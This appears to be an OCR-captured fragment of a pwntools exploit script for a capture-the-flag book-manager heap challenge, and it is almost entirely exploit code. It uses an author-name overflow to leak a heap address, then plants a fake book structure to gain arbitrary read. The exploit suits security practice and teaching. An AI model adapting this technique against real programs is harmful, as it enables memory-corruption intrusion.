 ```python
    r.sendline(b'1')
    r.recvuntil(b'Enter book name size: ')
    r.sendline(name_size)
    r.recvuntil(b'Enter book name (Max 32 chars): ')
    r.sendline(name)
    r.recvuntil(b'Enter book description size: ')
    r.sendline(description_size)
    r.recvuntil(b'Enter book description: ')
    r.sendline(description)
    log.info('create book')

def delete_book(index):
    r.recvuntil(b'>')
    r.sendline(b'2')
    r.recvuntil(b'Enter the book id you want to delete: ')
    r.sendline(index)
    log.info('delete book')

def edit_book(index, description):
    r.recvuntil(b'>')
    r.sendline(b'3')
    r.recvuntil(b'Enter the book id you want to edit: ')
    r.sendline(index)
    r.recvuntil(b'Enter new book description: ')
    r.sendline(description)
    log.info('edit book')

def print_book(index):
    r.recvuntil(b'>')
    r.sendline(b'4')
    for i in range(index):
        r.recvuntil(b': ')
        book_id = r.recvline()[:-1]
        r.recvuntil(b': ')
        book_name = r.recvline()[:-1]
        r.recvuntil(b': ')
        book_description = r.recvline()[:-1]
        r.recvuntil(b': ')
        book_author = r.recvline()[:-1]
    log.info('print book')
    return book_id, book_name, book_description, book_author

def change_author(name):
    r.recvuntil(b'>')
    r.sendline(b'5')
    r.recvuntil(b'Enter author name: ')
    r.sendline(name)
    log.info('change author')

create_author(b'a' * 32)
create_book(b'64', b'book1', b'32', b'book1 description')
create_book(b'135168', b'book2', b'135168', b'book2 description')

book_id_1, book_name_1, book_description_1, book_author_1 = print_book(1)
book1_addr = u64(book_author_1[32:32+6].ljust(8, b'\x00'))
log.success('book1 address: ' + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
edit_book(b'1', payload)
change_author(b'a' * 32)

book_id_1, book_name_1, book_description_1, book_author_1 = print_book(1)
book2_name = u64(book_name_1.ljust(8, b'\x00'))
```